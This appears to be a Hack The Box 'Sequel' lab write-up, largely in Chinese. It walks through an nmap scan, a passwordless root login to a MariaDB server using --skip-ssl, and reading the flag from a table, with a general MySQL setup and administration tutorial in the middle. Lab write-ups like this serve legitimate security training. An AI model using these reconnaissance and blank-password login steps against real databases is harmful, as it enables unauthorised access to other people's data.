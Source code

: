 <center>Sequel</center>





[toc]







## Sequel

> Sequel







### 1. task

1. During our scan, which port do we find serving MySQL?

```shell
nmap -sV 10.129.95.232 -A

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 135
|   Capabilities flags: 63486


3306
```

2. What community-developed MySQL version is the target running?

```shell
MariaDB
```

3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?

```shell
-u
```

4. Which username allows us to log into this MariaDB instance without providing a password?

```shell
root
```

5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

```shell
*
```

6. In SQL, what symbol do we need to end each query with?

```shell
;
```

7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

```shell
mysql -h 10.129.95.232 -u root -p 

ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
# 方法1：使用命令行参数
mysql -h 10.129.95.232 -u root --skip-ssl 

```





### 2. mysql

> mysql: MySQL 是最流行的开源关系型数据库管理系统

```shell
支持多种存储引擎
高性能
可靠性
易用性
跨平台
```

> `端口：3306`

> mysql 环境搭建

````shell
# 更新系统
sudo apt update
sudo apt upgrade

# 安装 MySQL
sudo apt install mysql-server mysql-client

# 安全配置
sudo mysql_secure_installation


#### 配置文件位置
```bash
# 主配置文件
sudo nano /etc/mysql/mysql.conf.d/mysqld.cnf
```
````

```shell
[mysqld]
# 网络设置
bind-address = 127.0.0.1
port = 3306

# 字符集设置
character-set-server = utf8mb4
collation-server = utf8mb4_unicode_ci

# 存储设置
datadir = /var/lib/mysql

# InnoDB 设置
innodb_buffer_pool_size = 1G
innodb_log_file_size = 256M
innodb_flush_log_at_trx_commit = 1

# 连接设置
max_connections = 150
```

````shell

### 4. 用户和权限管理

```sql
-- 创建用户
CREATE USER 'username'@'localhost' IDENTIFIED BY 'password';

-- 授权
GRANT ALL PRIVILEGES ON database_name.* TO 'username'@'localhost';
FLUSH PRIVILEGES;

-- 查看用户权限
SHOW GRANTS FOR 'username'@'localhost';
```


### 5. 数据库操作

```sql
-- 创建数据库
CREATE DATABASE dbname CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci;

-- 查看数据库
SHOW DATABASES;

-- 使用数据库
USE dbname;

-- 创建表
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(100) NOT NULL,
    email VARCHAR(100) UNIQUE,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);
```


### 6. 备份和恢复

```bash
# 备份单个数据库
mysqldump -u root -p database_name > backup.sql

# 备份所有数据库
mysqldump -u root -p --all-databases > all_databases.sql

# 恢复数据库
mysql -u root -p database_name < backup.sql
```

#### 配置优化
```ini:/etc/mysql/mysql.conf.d/mysqld.cnf
[mysqld]
# 缓冲池设置
innodb_buffer_pool_size = 4G
innodb_buffer_pool_instances = 4

# 日志设置
innodb_log_file_size = 512M
innodb_log_buffer_size = 16M

# 查询缓存
query_cache_size = 128M
query_cache_limit = 2M

# 临时表
tmp_table_size = 64M
max_heap_table_size = 64M
```

````







### 3. flag

> 获取flag



```shell
mysql -h 10.129.95.232 -u root --skip-ssl 

show databases;

use htb;

show tables;

select * from config;

5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8
```

